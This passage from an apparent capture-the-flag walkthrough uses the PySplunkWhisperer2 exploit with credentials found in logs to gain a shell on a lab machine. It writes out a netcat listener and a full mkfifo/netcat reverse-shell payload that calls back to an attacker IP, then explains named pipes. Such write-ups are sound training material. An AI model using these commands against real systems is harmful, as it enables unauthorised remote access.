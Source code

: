 

It fails with an authentication error. No problem, we have shaun:Guitar123. Let us try that with a reverse shell. Before running the exploit, start a listener on port 1994:

`nc -lvp 1994`

Now run:

`python3 PySplunkWhisperer2_remote.py \ --host 10.10.10.209 \ --username shaun \ --password Guitar123 \ --lhost 10.10.14.38 \ --payload 'rm /tmp/0xjcbk_pipe;mkfifo /tmp/0xjcbk_pipe;cat /tmp/0xjcbk_pipe|/bin/sh -i 2>&1|nc 10.10.14.38 1994 >/tmp/0xjcbk_pipe'`

* `--host 10.10.10.209` is the target.
* `--username shaun` and `--password Guitar123` are the creds we found in the logs.
* `--lhost 10.10.14.38` is our attacking IP.
* `--payload` is a quick trick using mkfifo to spawn a shell that connects back to us.

***

#### **Understanding the Payload (Optional)**

_Feel free to skip this part, but if you're curious about how the payload works and why it gives us remote code execution (RCE), here's a breakdown._

***

#### **TL;DR: How This Payload Gets Us RCE**

This payload creates a **reverse shell** using a **named pipe (FIFO)** to keep the connection stable.

1. **Creates a named pipe** (`mkfifo`) to act as a queue for input/output.
2. **Spawns an interactive shell** (`/bin/sh -i`) to execute commands.
3. **Uses netcat (`nc`) to send the shell’s output** to our attack machine (`10.10.14.38:1994`).
4. **Keeps the connection alive** by continuously reading/writing from the pipe.

***

#### **How Does This Relate to the `|` Pipe in Linux?**

In Linux, we commonly use the **pipe (`|`) operator** to send the output of one command **into** another.

**Example: Using a Simple Pipe**

```bash
echo "hello" | cat
```

* **`echo "hello"`** outputs the text `"hello"`.
* **`|` (pipe operator)** takes that output and sends it as input to `cat`.
* **`cat` reads it and prints `"hello"` back**.

This is the **exact same concept** as what our named pipe does—**except our named pipe is persistent** instead of temporary.

**What’s the Problem With a Normal Pipe?**

A regular `|` works **once** and then **closes**:
